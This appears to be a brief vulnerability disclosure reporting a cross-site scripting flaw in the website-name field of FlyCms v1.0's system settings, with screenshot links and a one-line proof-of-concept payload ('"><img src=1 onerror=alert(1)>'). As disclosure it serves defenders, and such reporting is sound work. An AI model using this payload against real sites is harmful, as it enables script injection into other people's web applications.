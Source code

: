 target:https://github.com/sunkaifei/FlyCms
version: v1.0

Xss exists in the system website settings website name section

![1](https://github.com/5List/cms/assets/155039637/d758e462-9e0b-4c3f-b2de-4460dc73c20c)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![2](https://github.com/5List/cms/assets/155039637/220124eb-9584-4fd3-a299-a5a479a30cbf)

